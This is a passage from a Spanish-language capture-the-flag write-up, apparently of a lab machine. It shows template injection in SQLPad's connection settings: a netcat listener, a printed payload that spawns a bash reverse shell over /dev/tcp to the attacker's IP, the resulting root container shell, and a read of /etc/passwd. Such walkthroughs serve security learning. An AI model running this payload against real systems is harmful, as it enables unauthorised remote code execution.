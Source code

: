 El primer paso es acceder a connections y añadir una nueva conexión

![imagen](https://github.com/user-attachments/assets/50020b32-c3e5-4479-b554-292d502a6aa3)

![imagen](https://github.com/user-attachments/assets/7ccc4636-ab54-46a5-a53c-b8c20053c1ca)

Selecciono MySQL como Driver

![imagen](https://github.com/user-attachments/assets/9d039b44-3b7d-4a06-9139-f9e7a8f29eb5)

Inicio un listener con netcat por el puerto 4444 para obtener la reverse shell al ejecutar la inyección

```bash
nc -lvnp 4444
listening on [any] 4444 .
```

En el campo Database introduzco el payload que contiene la inyección acomodada para enviar una reverse shell hacia mi máquina de atacante

> Payload: {{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.160/4444 0>&1"') }}
{: .prompt-info }

![imagen](https://github.com/user-attachments/assets/1f6803ec-b88d-4908-a167-8e2e991b41a0)

Por ultimo hago clic sobre Test y obtengo la reverse shell como usuario root pero a un contenedor, ya que la IP victima es la 10.10.11.32 y me encuentro en la 172.17.0.2

![imagen](https://github.com/user-attachments/assets/d3a1df29-b740-4234-91ac-243e50530d1d)

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.160] from (UNKNOWN) [10.10.11.32] 47918
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# hostname -I
172.17.0.2
```

## Post exploitation

### Lateral Movement

Tengo que buscar alguna forma de escapar del contenedor, comienzo visualizando los usuarios del sistema, veo que existen diferentes usuarios a parte de root

```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```
